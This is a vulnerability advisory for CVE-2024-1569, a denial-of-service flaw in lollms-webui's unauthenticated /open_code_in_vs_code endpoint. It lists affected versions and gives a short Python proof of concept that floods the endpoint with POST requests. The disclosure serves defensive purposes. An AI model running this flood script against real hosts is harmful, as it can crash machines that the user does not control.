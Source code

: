 ```yaml
---
description: CVE-2024-1569, MEDIUM, Unrestricted resource consumption in lollms-webui leads to denial of service
title: lollms-webui resource consumption DoS
date_published: "2024-04-15"
last_updated: "2024-04-15"
xray_id: JFSA-2024-001028813
vul_id: CVE-2024-1569
cvss: 5.3
severity: medium
discovered_by: Naveh Racovsky
type: vulnerability

---
```


## Summary

 Unrestricted resource consumption in lollms-webui leads to denial of service

## Component

[parisneo/lollms-webui](https://github.com/parisneo/lollms-webui)

## Affected versions

(,9.1], Fixed in 9.2

## Description

The `/open_code_in_vs_code` endpoint is open for access on a network level without authentication when the application is running exposed to the network (for example, by using `--host 0.0.0.0`, this could lead to a denial of service attack, which can crash the entire host machine. The attack happens by repeatedly sending HTTP POST requests to the `/open_code_in_vs_code` path. This leads to visual studio code repeatedly outside of the program, thus affecting the machine outside the program scope. Other endpoints are open to similar attacks and may be exploited similarly to this vulnerability.

## PoC

```bash
// PoC.py
import requests

IP_ADDRESS = "aaa.bbb.ccc.ddd"
PORT = 9600

for i in range(1000):
    data = {
        "code": "a",
        "discussion_id": f"{i}",
        "message_id": f"{i}",
    }
    response = requests.post(f"http://{IP_ADDRESS}:{str(PORT)}/open_code_in_vs_code", json=data)
    print(i, response.json())
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[Advisory](https://huntr.com/bounties/369d1694-47e4-49bc-bb35-931ce4a5148e)

